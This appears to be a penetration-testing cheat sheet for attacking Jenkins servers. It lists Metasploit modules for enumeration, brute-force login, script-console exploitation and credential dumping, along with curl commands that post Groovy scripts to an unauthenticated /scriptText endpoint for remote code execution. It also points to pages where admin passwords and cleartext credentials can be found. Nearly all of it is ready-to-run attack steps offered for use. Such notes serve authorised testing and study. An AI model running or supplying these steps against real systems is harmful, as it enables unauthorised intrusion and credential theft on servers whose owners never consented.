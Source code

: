 # Jenkins

## Reconnaissance

```
msf > use auxiliary/scanner/http/jenkins_enum
```

## Vulnerability Assessment

### Brute Force

```
msf > use auxiliary/scanner/http/jenkins_login
```

## Initial Foothold

### Unauthenticated RCE Exploit

```
$ curl -d "script=$(<./wget.groovy)" -X POST http://<target_IP>/scriptText

$ curl --data-urlencode "script=$(<./execute.groovy)" -X POST http://<target_IP>/scriptText
```

### Discovery

Enumerate available usernames by re-using credentials.

```
http://<IP>/manage/securityRealm/
```

Check the log recorders to find randomly generated `admin` password.

```
http://<IP>/manage/log/
```

Check projects and build jobs to view the settings. Sometimes they leave commands with clear text credentials.

```
http://<IP>/job/test/configure
```

### Command Execution

```
msf > use auxiliary/scanner/http/jenkins_command
```

### Upload Payload

#### Manual

> [!INFO]
> This method isn't mostly reliable. Use groovy to execute the payload.

**Build Steps** tab. Click the button **Add build step** then choose **Run with timeout**. Leave **timeout minutes** for `120` minutes. Then copy the commands with a second **Build Step** with a label **Execute Windows batch command**.

#### Metasploit

```
msf > use exploit/multi/http/jenkins_script_console

set rhost <target_IP>

set rport <target_PORT>
```

```
msf > use post/multi/gather/jenkins_gather

msf > use auxiliary/gather/jenkins_cred_recovery
```

### Dump Credentials

```
msf > use auxiliary/gather/jenkins_cred_recovery
```

---
## References

### Source Repositories

- [gquere: Pwn Jenkins](https://github.com/gquere/pwn_jenkins)

### Hacktricks

- [Hacktricks: Jenkins](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

### Hacking Articles

- [Hacking Articles: Jenkins Penetration Testing](https://www.hackingarticles.in/jenkins-penetration-testing/)

### Highon Coffee

- [Highon Coffee: Jenkins RCE via Unauthenticated API](https://highon.coffee/blog/jenkins-api-unauthenticated-rce-exploit/)

### HDYSec

- [HDYSec: Double Pivoting both Metasploit and Manual Pivoting](https://web.archive.org/web/20240226150345/https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/)